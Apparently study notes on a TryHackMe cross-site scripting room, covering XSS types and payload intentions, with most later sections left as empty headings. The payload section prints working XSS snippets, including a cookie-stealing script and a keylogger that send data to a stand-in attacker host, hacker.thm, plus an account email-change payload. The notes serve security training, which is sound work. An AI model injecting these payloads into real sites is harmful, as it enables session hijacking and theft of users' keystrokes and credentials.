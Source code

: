 #THM_JR_PENETRATION_TESTER #INTRODUCTION_TO_WEB_HACKING 

## 1. Room Brief

**Prerequisites:**  
It's worth noting that because XSS is based on JavaScript, it would be helpful to have a basic understanding of the language. However, none of the examples is overly complicated—also, a basic understanding of Client-Server requests and responses.

==DEF-Cross-Site Scripting, better known as XSS in the cybersecurity community, is a type of web security vulnerability that allows an attacker to inject malicious scripts (usually JavaScript) into otherwise trusted websites or web applications.== In this room, you'll learn about the different XSS types, how to create XSS payloads, how to modify your payloads to evade filters, and then end with a practical lab where you can try out your new skills.

Cross-site scripting vulnerabilities are extremely common. Below are a few reports of XSS found in massive applications; you can get paid very well for finding and reporting these vulnerabilities.  

- [XSS found in Shopify](https://hackerone.com/reports/415484)
- [$7,500 for XSS found in Steam chat](https://hackerone.com/reports/409850)
- [$2,500 for XSS in HackerOne](https://hackerone.com/reports/449351)
- [XSS found in Infogram](https://hackerone.com/reports/283825)
<div>
<br>
<br>
</div>

### Questions

##### What does XSS stand for?
Cross-Site Scripting
<div align="center">
<br>
<br>
※※※※※※※※※※※※※※※※※※※※※※※※
<br>
</div>
<!-- PAGE BREAK -->
<div style="page-break-after: always;"></div>

## 2. XSS Payloads

### What is a payload?

In XSS, the payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.

The intention is what you wish the JavaScript to actually do (which we'll cover with some examples below), and the modification is the changes to the code we need to make it execute as every scenario is different (more on this in the perfecting your payload task).

Here are some examples of XSS intentions.

### Proof Of Concept:

This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:

`<script>alert('XSS');</script>`

### Session Stealing:

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.

`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`  

### Key Logger:

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

### Business Logic:

This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:

`<script>user.changeEmail('attacker@hacker.thm');</script>`

Now that the email address for the account has changed, the attacker may perform a reset password attack.

The next four tasks are going to cover the different types of XSS Vulnerabilities, all requiring slightly different attack payloads and user interaction.
<div>
<br>
<br>
</div>

### Questions

##### 
<div align="center">
<br>
<br>
※※※※※※※※※※※※※※※※※※※※※※※※
<br>
</div>
<!-- PAGE BREAK -->
<div style="page-break-after: always;"></div>

## 3. Reflected XSS
<div align="center">
<br>
<br>
※※※※※※※※※※※※※※※※※※※※※※※※
<br>
</div>
<!-- PAGE BREAK -->
<div style="page-break-after: always;"></div>

## 4. Stored XSS
<div align="center">
<br>
<br>
※※※※※※※※※※※※※※※※※※※※※※※※
<br>
</div>
<!-- PAGE BREAK -->
<div style="page-break-after: always;"></div>

## 5. DOM Based XSS
<div align="center">
<br>
<br>
※※※※※※※※※※※※※※※※※※※※※※※※
<br>
</div>
<!-- PAGE BREAK -->
<div style="page-break-after: always;"></div>

## 6. Blind XSS
<div align="center">
<br>
<br>
※※※※※※※※※※※※※※※※※※※※※※※※
<br>
</div>
<!-- PAGE BREAK -->
<div style="page-break-after: always;"></div>

## 7. Perfecting your payload
<div align="center">
<br>
<br>
※※※※※※※※※※※※※※※※※※※※※※※※
<br>
</div>
<!-- PAGE BREAK -->
<div style="page-break-after: always;"></div>

## 8. Practical Example (Blind XSS)
<div align="center">
<br>
<br>
※※※※※※※※※※※※※※※※※※※※※※※※
<br>
</div>
<!-- PAGE BREAK -->
<div style="page-break-after: always;"></div>

## References

https://tryhackme.com/room/xss